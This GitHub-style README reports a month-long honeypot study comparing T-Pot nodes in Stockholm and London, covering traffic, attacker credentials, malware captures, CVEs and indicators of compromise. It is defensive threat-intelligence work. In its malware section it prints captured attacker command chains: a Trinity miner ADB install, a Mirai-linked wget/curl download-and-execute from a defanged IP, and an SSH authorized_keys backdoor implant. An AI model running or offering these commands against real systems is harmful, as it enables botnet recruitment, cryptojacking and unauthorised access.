










# 🍯 Threat Intelligence using T-Pot Honeypots

> Two identical **T-Pot** honeypot nodes, one on **AWS in Stockholm** and one on **DigitalOcean in London**, were run side by side for at least a month. The aim was to compare how attack surface, traffic, attacker behaviour, exploitation techniques and threat intelligence differ by geographic location, even within the same continental region.


📄 **Full report:** [`Threat Intelligence using T-Pot Honeypots (PDF)`](docs/report.pdf)

---

## 📑 Table of Contents

1. [Overview](#-overview)
2. [Background: Honeypots & T-Pot](#-background-honeypots--t-pot)
3. [Deployment](#️-deployment)
4. [Attack Surface & Exposure](#-attack-surface--exposure)
5. [Traffic Analysis](#-traffic-analysis)
6. [Behaviour Analysis](#-behaviour-analysis)
7. [Malware & Payload Analysis](#-malware--payload-analysis)
8. [Threat Intelligence Correlation](#-threat-intelligence-correlation)
9. [Indicators of Compromise](#-indicators-of-compromise)
10. [Challenges](#-challenges)
11. [Learnings](#-learnings)
12. [Improvements](#-improvements)
13. [Conclusion](#-conclusion)
14. [Tools Used](#-tools-used)
15. [References](#-references)
16. [Author](#-author)

---

## 🔎 Overview

Organisations need smarter threat detection systems, and honeypots are one of them. Honeypots let analysts monitor attacks. They also show researchers how attackers think and operate.

This project uses **T-Pot**, an open-source multi-honeypot platform from **Telekom Security**. It deploys two nodes with **exactly the same setup** in two different locations:

| Node | Cloud Provider | Location |
|------|----------------|----------|
| Node 1 | AWS EC2 instance | **Stockholm** |
| Node 2 | DigitalOcean Droplet | **London** |

The goal is to see how much traffic and attacks differ between the two locations, and to produce threat intelligence from what each node captured.

**Key result:** the London node received **more than 10× the traffic** of the Stockholm node. Neither honeypot was compromised or lost during the one-month activity.

---

## 📚 Background: Honeypots & T-Pot

### What is a honeypot?

Honeypots, or honey-traps, are decoy machines built to attract threat actors. They are used to learn who those actors are and how they operate. They also distract attackers from other, legitimate targets.

**Core types of honeypots by function and architecture:**

| Type | Purpose |
|------|---------|
| **Malware Honeypot** | Imitates systems or storage devices to attract malware. Used to learn how malware spreads, which vulnerabilities it targets, and what payloads it uses. |
| **Spam Honeypot** | Uses proxies and mail relays to attract spammers. Used to study spamming behaviour and collect spam samples. |
| **Database Honeypot** | A decoy server that attracts database-specific attacks such as SQL injection, so real databases can be protected based on the analysis. |
| **Client Honeypot** | Attracts malicious servers that attackers use against clients. Used to study how those servers exploit client vulnerabilities and to collect payloads. |

### What is T-Pot?

T-Pot is a multi-honeypot platform. It ships Docker images of many honeypots that work together, plus a **centralised dashboard** for all of them. It covers services such as SSH, Telnet and HTTP/HTTPS, which gives a wide view of which services attackers commonly target.

The T-Pot 24.04.1 landing page gives access to:

- **Attack Map**
- **CyberChef**
- **Elasticvue**
- **Kibana**
- **Spiderfoot**
- **SecurityMeter**
- T-Pot ReadMe / T-Pot @ GitHub


*Fig. 1 — T-Pot dashboard*

---

## ☁️ Deployment

### Why the cloud?

Running the nodes in the cloud had three benefits:

- ✅ The nodes stay **up and running at all times**.
- ✅ **Backups** can be maintained.
- ✅ It avoids drawing **unwanted traffic** to a local machine, which would happen if the honeypot ran locally.

### Node configuration

| Parameter | Stockholm Node | London Node |
|-----------|----------------|-------------|
| Cloud provider | AWS (EC2 instance) | DigitalOcean (Droplet) |
| Location | Stockholm | London |
| Operating system | Debian 12 | Ubuntu |
| T-Pot version | v24.04.1 | v24.04.1 |
| T-Pot mode | **Hive** | **Hive** |
| Duration | At least one month | At least one month |
| Funding | Free cloud credits | Free cloud credits |

Both nodes run in **Hive mode**, which aggregates logs centrally for analysis. The services deployed were the same on both nodes throughout the activity.

### Why Stockholm and London?

Both locations are in Europe. They were chosen to find differences and similarities between them:

- **London** is close to major **Internet Exchange Points**. This region was expected to produce dense data because of high network and scanning activity.
- **Stockholm** has less saturated networks and less scanning activity.

---

## 🎯 Attack Surface & Exposure

### Services deployed

Services on both nodes included, but were not limited to:

| Honeypot / Tool | Role |
|-----------------|------|
| **Cowrie** | SSH / Telnet honeypot |
| **Dionaea** | Malware-capturing honeypot |
| **ElasticPot** | Elasticsearch honeypot |
| **Heralding** | Credential-capturing honeypot |
| **Mailoney** | Mail (SMTP) honeypot |
| **Conpot** | ICS / industrial honeypot |
| **Suricata** | Network IDS |

### Listening ports & firewall

- **All ports were open** on both nodes to build a realistic and dense knowledge base.
- This captures data on common attack-vector ports such as **22 (SSH), 23 (Telnet), 80 / 443 (HTTP/HTTPS) and 21 (FTP)**. It also shows whether attackers use **uncommon ports** for initial access.
- Each node had a **public IP address**. Inbound firewall rules allowed **full TCP access** to all ports.
- **No outbound traffic was allowed**, to block any possible lateral movement or C2 communication.

### Discoverability

Discoverability, or visibility, is how likely a node is to be found by scanners and reconnaissance tools such as **Shodan** and **Nmap**.

| Observation | London | Stockholm |
|-------------|--------|-----------|
| Visibility on Shodan | **Significantly higher**, with more open ports displayed | **Lower**, with fewer open ports displayed |
| Nmap scan | All ports open | All ports open |

The setups were identical and Nmap showed every port open on both nodes. Shodan still showed them very differently. This strongly suggests that **regional IP allocation** and possibly **ASN reputation** directly affect how visible a node is.

---

## 📈 Traffic Analysis

### Connection count

| Node | Incoming TCP connection attempts |
|------|----------------------------------|
| **London** | **> 2,000,000** |
| **Stockholm** | **> 200,000** |

London received **more than ten times** the traffic of Stockholm. Possible reasons:

- **Geolocation:** the number of Internet Exchange Points in a location affects how much traffic a node sees. It also affects how many automated scanners and botnets reach the node.
- **ASN reputation:** some ASN ranges get much more reconnaissance than others, so a node in a busier range attracts more traffic.
- **Visibility:** public tools like Shodan and Nmap scan nodes based on how they are indexed. A node that is indexed higher receives more inbound traffic.

### Top attacking countries

| # | London | Count | Stockholm | Count |
|---|--------|------:|-----------|------:|
| 1 | United States | 553,402 | United States | 102,911 |
| 2 | The Netherlands | 209,898 | China | 16,352 |
| 3 | Panama | 193,249 | The Netherlands | 10,024 |
| 4 | Hong Kong | 60,094 | India | 9,236 |
| 5 | India | 57,634 | Russia | 7,756 |
| 6 | Germany | 55,277 | Germany | 7,433 |
| 7 | Romania | 50,847 | France | 5,614 |
| 8 | France | 46,370 | Singapore | 5,154 |
| 9 | Singapore | 44,163 | Canada | 5,149 |
| 10 | Indonesia | 31,615 | Vietnam | 4,368 |

**Countries common to both nodes:** United States, The Netherlands, France, India and Germany. This fits with their place among the world's top cyber nations, a list that also includes China, the United Kingdom, Vietnam and Russia. Some unexpected countries appeared in the lists, and some expected ones did not.

### Top services targeted

| # | London | Stockholm |
|---|--------|-----------|
| 1 | Honeytrap | Honeytrap |
| 2 | Cowrie | Cowrie |
| 3 | Ciscoasa | Ciscoasa |
| 4 | Dionaea | Dionaea |
| 5 | Sentrypeer | Tanner |
| 6 | Mailoney | Mailoney |
| 7 | Tanner | Conpot |
| 8 | H0neytr4p | H0neytr4p |
| 9 | Miniprint | Redishoneypot |
| 10 | ConPot | Adbhoney |

The **top four services were the same** on both nodes. Automated attacks hit a wide range of ports. For example, **SSH services draw brute-force credential attacks** and **IoT endpoints draw botnet attacks**. This data gives insight into the current attack surface and emerging threat patterns.

---

## 🧠 Behaviour Analysis

### Command sequences

A command sequence is the chain of commands a threat actor uses to try to exploit a system. The honeypot environment is isolated, so these commands **never actually execute**. They still show how attackers move through a system and which tools they use to install malware and change configurations.

The analysis searched for common commands used to:
- move around the system,
- download software, and
- modify configuration.

Example search terms: `curl`, `wget`, `chmod`.

Threat actors were also seen **retrying the same command chain multiple times** to establish persistence across many instances.

### Credential analysis

There are no real systems behind the honeypot, so collecting and studying the credentials attackers use is a safe way to analyse attack patterns and password dictionaries.

**Trends observed:**
- Reuse of **weak passwords**
- **Default login credentials**
- **Common username lists**
- The most-used credentials were **almost identical across both nodes**, with only a few differences.

| Most prominent usernames (tag cloud) | Most prominent passwords (tag cloud) |
|--------------------------------------|--------------------------------------|
| `root`, `sa`, `admin`, `user`, `test`, `345gs5662d34` | `123456`, `3245gs5662d34`, `345gs5662d34`, `123`, `password` |


*Fig. 2 — Common username attempts*


*Fig. 3 — Common password attempts*

Organisations can use this data to write **better password policies** based on the passwords actually used in the threat landscape.

---

## 🦠 Malware & Payload Analysis

> All IOCs below are **defanged** (`[.]`) and must not be visited or executed.

### A. Trinity Malware (UFO Miner): ADB cryptomining botnet

Captured by the **Adbhoney** honeypot, which logs traffic aimed at **Android Debug Bridges (ADB)** exposed to the internet.

- ADB is a developer protocol for debugging and pushing software updates to Android devices, including phones, TVs and other Android IoT devices.
- It typically runs over **TCP port 5555 or 5557**. Surprisingly, ADB traffic was seen on **both nodes**.
- Among the top requests on the Adbhoney dashboard were commands containing **`nohup`** and **`trinity`**.
- Filtering on `trinity` traced the **source IP to a communications company based in China**.
- These clues pointed to **Trinity malware**, also known as the **UFO miner**. It spreads over ADB and uploads an **APK** to the target device to **mine cryptocurrency**, which turns the device into part of a **botnet**.

**Logged command chain:**

```text
pm path com.ufo[.]miner
pm install /data/local/tmp/ufo[.]apk
rm /data/local/tmp/ufo[.]apk
am start -n com.ufo[.]miner/com.example.test[.]MainActivity
ps | grep trinity
rm -rf /data/local/tmp/*
chmod 0755 /data/local/tmp/nohup
chmod 0755 /data/local/tmp/trinity
/data/local/tmp/nohup su -c /data/local/tmp/trinity
/data/local/tmp/nohup /data/local/tmp/trinity
```

**What it does:**
1. Checks whether the UFO miner is already on the target.
2. If not, installs it from an APK, **deletes the installer file**, and starts the miner process through the APK.
3. `chmod 0755` gives the owner full read/write/execute rights and gives all other users read/execute only.
4. Starts the files, which **compromises the device**.

The IP **89.41.20[.]225** had **not been reported enough for AbuseIPDB to assign a confidence score** when the report was written.

The dropped hashes, checked on **VirusTotal**, had **already been flagged** by other researchers.


*Fig. 4 — Adbhoney top 10 commands*


*Fig. 5 — Filtered by `ps | grep trinity`*


*Fig. 6 — Trinity malware chain of commands*

### B. Binary Distribution: Mirai-linked executor (London node)

An **executor**, captured on the London node, that installs binaries on the target device and makes them executable.

**Simplified command chain:**

```text
cd /data/local/tmp;
rm *;
busybox wget http://94.154.35[.]154/arm[.]uhavenobotsxd;
curl http://94.154.35[.]154/arm[.]uhavenobotsxd -O;
chmod +x arm[.]uhavenobotsxd;
./arm[.]uhavenobotsxd android;
```

**What it does:**
1. Moves into the temp directory and **wipes it** with `rm`.
2. Downloads `arm[.]uhavenobotsxd` with **`busybox wget`**, using **`curl` as a fallback**.
3. Makes the binary executable with `chmod`.
4. Runs it with the `android` argument.

The threat actor used builds for **many CPU architectures** to raise its chances of success: **arm, arm5, arm6, arm7, x86_32, mips and mipsel**.

Downloading and running binaries like this can be a sign of **Remote Code Execution (RCE)**, which can be used to add the target to a **botnet** or for **lateral movement**. The binary's signatures trace back to **Mirai**, malware known for recruiting clients into a botnet.


*Fig. 10 — uhavenobotsxd binary logs*

### C. Backdoor Installation: SSH key implant (Cowrie)

The **Cowrie** honeypot logged a suspicious input in which a threat actor tried to plant **their own RSA key** for SSH access.

**Command chain:**

```bash
cd ~
rm -rf .ssh
mkdir .ssh
echo "ssh-rsa AAAAB3N...mdrfckr" >> .ssh/authorized_keys
chmod -R go= ~/.ssh
```

**What it does:**
1. Moves into the home directory and **force-removes** `.ssh`.
2. Creates a new `.ssh` directory and **appends the attacker's public key** to `authorized_keys`.
3. Changes permissions so the directory is **inaccessible to group and others**.

Anyone holding the matching private key could log in to the machine, even with the tightened permissions. In other words, this was an **attempted backdoor install**.


*Fig. 11 — Backdoor installation input*

### D. Ransomware Deployment Attempts: WannaCry (Dionaea)

**Dionaea** collects malware samples that threat actors drop. Captured binaries are stored in:

```text
/data/dionaea/binaries
```

On **VirusTotal**, some of these hashes trace back to the **WannaCry** ransomware family.

**Why the machine wasn't compromised:**
- Dionaea **only stores** malware for analysis. It does **not execute** it.
- WannaCry was built for **Windows**, not Linux.


*Fig. 12 — Binaries in Dionaea*


*Fig. 13 — WannaCry flagged by VirusTotal*

---

## 🔗 Threat Intelligence Correlation

### Vulnerabilities targeted (CVEs flagged by the honeypots)

| Node | CVE | Effect |
|------|-----|--------|
| **London** | CVE-2020-11910 | RCE |
| | CVE-2019-12263 / 12261 / 12260 / 12255 | Ripple20 RCE |
| | CVE-2020-11900 | RCE |
| | CVE-1999-0016 | DDoS |
| | CVE-2019-15107 | Webmin RCE |
| | CVE-2020-11899 | Ripple20 RCE |
| **Stockholm** | CVE-2024-4577 | RCE |
| | CVE-2021-41773 | Path Traversal |
| | CVE-2021-42013 | Path Traversal + RCE |
| | CVE-2021-3449 | DoS |
| | CVE-2019-11500 | RCE |
| | CVE-2017-3506 | Deserialization RCE |
| | CVE-2006-2369 | Argument Injection |
| | CVE-2002-0012 / 0013 | Encoding Overflow |
| | CVE-2002-0953 | Buffer Overflow |
| | CVE-2002-1149 | Weak SSL Handling |

Many of these CVEs are **Remote Code Execution (RCE)** flaws, because RCE is so valuable to attackers. A successful RCE attack can lead to **malware deployment, backdoor installation, botnet recruitment or lateral movement**.

### MITRE ATT&CK mappings

The IOCs found were mapped to well-known **Tactics, Techniques and Procedures (TTPs)**. This expresses attacker commands, malware binaries and exploitation techniques in standard industry terms.

| Honeypot | MITRE ATT&CK Techniques |
|----------|-------------------------|
| **Adbhoney** | T1105 – Ingress Tool Transfer<br>T1059 – Command Execution<br>T1047 – Process Execution<br>T1070.004 – File Deletion |
| **Cowrie** | T1078 – Valid Accounts<br>T1082 – System Information Discovery<br>T1083 – File/Directory Discovery<br>T1087 – Account Discovery |
| **Dionaea** | T1105 – Ingress Tool Transfer<br>T1047 – Process Execution<br>T1203 – Exploitation for Client Execution<br>T1005 – Data from Local System |

---

## 🚩 Indicators of Compromise

### IP addresses

| IP (defanged) | Context |
|---------------|---------|
| `89.41.20[.]225` | Trinity / UFO miner activity (Adbhoney); no AbuseIPDB confidence score at time of writing |
| `94.154.35[.]154` | Hosting `arm[.]uhavenobotsxd` (Mirai-linked executor) |
| `193.142.147[.]209` | Seen in the `uhavenobotsxd` binary logs |
| `104.208.108[.]166` | SSH `authorized_keys` backdoor attempt (Cowrie) |
| `106.33.161[.]15` | Checked on AbuseIPDB during analysis |

### Files / payloads

| Indicator | Context |
|-----------|---------|
| `com.ufo[.]miner` / `ufo[.]apk` | Trinity / UFO miner APK |
| `/data/local/tmp/trinity`, `/data/local/tmp/nohup` | Trinity payload files |
| `arm[.]uhavenobotsxd` (+ arm5, arm6, arm7, x86_32, mips, mipsel variants) | Mirai-linked binary |
| `ssh-rsa AAAAB3N...mdrfckr` | Attacker SSH public key |

### SHA-256 hashes (VirusTotal)

| Hash | Context |
|------|---------|
| `d7188b8c575367e10ea8b36ec7cca067ef6ce6d26ffa8c74b3faa0b14ebb8ff0` | Trinity payload |
| `7a656791b445fff02ac6e9dd1081cc265db935476a9ee71139cb6aef52102e2b` | Trinity payload |
| `0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257` | Trinity payload |
| `c691262ed27e50d98f0ed4224365cbb38115392765b7232f430f60de1b5c575c` | WannaCry (Dionaea) |

---

## 🧗 Challenges

| Challenge | Detail | Resolution |
|-----------|--------|------------|
| **Port 25 conflict on AWS** | The **Debian 12** image used for the AWS node had an **exim4** daemon running on port 25, which got in the way of deploying the honeypot correctly. | Handled during configuration. Using **Ubuntu** on the DigitalOcean node made setup **much easier**. |
| **AWS node going offline** | The AWS node went offline **every few hours**, which hurt data capture. The likely cause was **insufficient processing capacity** in the instance type. | **AWS CloudWatch alarms** were set up to **automatically reboot** the node on failure, keeping uptime as high as possible. |

---

## 🎓 Learnings

**Technical skills:**
- Cloud computing and deployment
- Maintaining backups
- Security monitoring
- Threat intelligence
- Log analysis and event correlation
- Network traffic analysis
- Malware capture
- SIEM proficiency

**Soft skills:**
- Project management
- Attention to detail
- Problem solving
- Research
- Documentation and reporting

---

## 🔧 Improvements

What I'd do differently next time:

- **Set up CloudWatch alarms earlier.** They were added late in the activity, and earlier setup would have improved data collection.
- **Use a more powerful instance type** to avoid the regular downtime on the AWS node.
- **Deploy a sensor node alongside the hives** to get more clarity on how the nodes connect.
- **Use a dedicated SIEM such as Splunk.** KQL queries in Kibana Discover worked well enough to find key attacks, but a SIEM would have made it easier.

---

## ✅ Conclusion

- The study looked at how geolocation changes the amount of unique traffic a node receives, and therefore the number of attacks.
- **London has a larger risk surface than Stockholm.** By extension, deploying services in Stockholm would substantially reduce the risk vector and the chance of being attacked.
- **Neither honeypot was compromised or lost** during the one-month activity.
- Honeypots are a strong way to understand the current threat landscape, including:
  - attack methods,
  - the countries attacks come from,
  - possible links to known threat actor groups, and
  - attack payloads.
- With open-source tools like T-Pot and cloud resources, deploying a honeypot has become **simpler and cheaper**.

---

## 🧰 Tools Used

| Category | Tools |
|----------|-------|
| Honeypot platform | T-Pot v24.04.1 (Hive mode) |
| Cloud | AWS EC2, AWS CloudWatch, DigitalOcean Droplet |
| Operating systems | Debian 12 (AWS), Ubuntu (DigitalOcean) |
| Honeypots / sensors | Cowrie, Dionaea, ElasticPot, Heralding, Mailoney, Conpot, Adbhoney, Suricata |
| Analysis | Kibana (KQL in Discover), Elasticvue, CyberChef, Spiderfoot, Attack Map |
| Reconnaissance / visibility | Shodan, Nmap |
| Threat intelligence | VirusTotal, AbuseIPDB, JoeSandbox Cloud, NIST NVD, MITRE ATT&CK |

---

## 📖 References

1. Fortinet, "What Are Honeypots (Computing)?" — https://www.fortinet.com/resources/cyberglossary/what-is-honeypot
2. Telekom Security, "T-Pot – The All In One Multi Honeypot Platform", Dec. 11, 2024 — https://github.com/telekom-security/tpotce?tab=readme-ov-file#get-and-install-t-pot
3. Daniel Lowrie, "Is T-POT The ULTIMATE HONEYPOT Platform?", Jul. 29, 2024 — https://www.youtube.com/watch?v=uwnVK3DI8Sk&t=2s
4. CTRL+ALT+DEFEND, "Want to build t-pot honeypot on AWS? Find out in a few easy steps!", Aug. 17, 2023 — https://www.youtube.com/watch?v=sbZwMO6mjPE
5. Code Apprentice AI, "How to Deploy a Honeypot in a Virtual Machine on DigitalOcean", Oct. 26, 2024 — https://www.youtube.com/watch?v=-io3NdaU8us&t=254s
6. IBM, "UK Remains Most-Attacked Country in Europe as Large-Scale Credential Theft Escalates", Apr. 17, 2025 — https://uk.newsroom.ibm.com/2025-IBM-X-force-threat-index-uk-remains-most-attacked-country-in-europe
7. Gabriel Cirlig (huuck), "ADBHoney – Low interaction honeypot designed for Android Debug Bridge over TCP/IP", Nov. 15, 2024 — https://github.com/huuck/ADBHoney
8. Michel Oosterhof, "Cowrie – A medium to high interaction SSH and Telnet honeypot", Oct. 9, 2025 — https://github.com/cowrie/cowrie
9. PhiBo (phibos), "dionaea – catches bugs", Nov. 30, 2020 — https://github.com/DinoTools/dionaea
10. KeySight, "Trinity—P2P Malware Over ADB", Jun. 22, 2020 — https://www.keysight.com/blogs/en/tech/nwvs/2020/11/22/trinity-p2p-malware-over-adb
11. AWS, "Create CloudWatch alarms for Amazon EC2 instances that fail status checks" — https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/creating_status_check_alarms.html
12. Shodan Search Engine — https://www.shodan.io/
13. Nmap: The Network Mapper — https://nmap.org/
14. AbuseIPDB, 106.33.161[.]15 — https://www.abuseipdb.com/check/106.33.161.15
15. AbuseIPDB, 89.41.20[.]225 — https://www.abuseipdb.com/check/89.41.20.225
16. AbuseIPDB, 94.154.35[.]154 — https://www.abuseipdb.com/check/94.154.35.154
17. AbuseIPDB, 193.142.147[.]209 — https://www.abuseipdb.com/check/193.142.147.209
18. AbuseIPDB, 104.208.108[.]166 — https://www.abuseipdb.com/check/104.208.108.166
19. VirusTotal — https://www.virustotal.com/gui/file/d7188b8c575367e10ea8b36ec7cca067ef6ce6d26ffa8c74b3faa0b14ebb8ff0
